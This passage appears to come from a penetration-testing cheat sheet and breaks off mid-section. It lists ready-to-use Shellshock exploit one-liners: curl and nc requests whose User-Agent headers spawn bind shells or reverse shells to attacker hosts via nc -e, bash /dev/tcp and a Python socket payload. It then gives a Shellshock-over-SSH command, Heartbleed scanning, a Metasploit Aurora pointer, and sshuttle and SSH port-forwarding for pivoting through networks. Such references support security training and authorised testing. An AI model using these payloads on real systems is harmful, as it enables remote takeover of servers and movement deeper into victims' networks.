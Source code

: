 You can also:

```
echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc $ip 80
```

```
curl -x TARGETADDRESS -H "User-Agent: () { ignored;};/bin/bash -i >& /dev/tcp/HOSTIP/1234 0>&1" $ip/cgi-bin/status
```

```
curl -H "UserAgent: () { :; }; /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.168.49.123\",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'" http://$ip/cgi-bin/test.sh
```

Shellshock over SSH:

```
ssh username@$ip '() { :;}; /bin/bash'
```

Exploit shellshock via curl, use -k switch to force curl to bypass any SSL warnings. Replace the bash command with anything.

```
curl http://192.168.123.123/path/to/cgi- bin/name_of_vuln_cgi -H "custom:() { ignored; }; /bin/bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1 "
```

### HeartBleed

Test web server

```
sslscan $ip:443
```

### Internet explorer 6

Vulnerable to msf exploit(ms10\_002\_aurora)

## Tunneling your traffic through another host

* ```
  sshuttle -r root@$ip 10.10.10.0/24
  ```

### Port forwarding

Simplest type of traffic redirection, consists on accepting traffic from one address and port port and redirecting it to another address and port.

It can be useful to bypass address and port based filters. Rinetd is a linux tool to do it.

### Local port forwarding

Creates an encrypted tunnel through two machines and have traffic redirected to a final host and port, similar to port forwarding This is useful when you are trying to connect from your machine to a destination using a gateway. The syntax is:

```
ssh gateway_host -L local_port:remote_host:remote_port
```

You can later create a SSH session to the local port and have and SSH tunneled to destination:

```
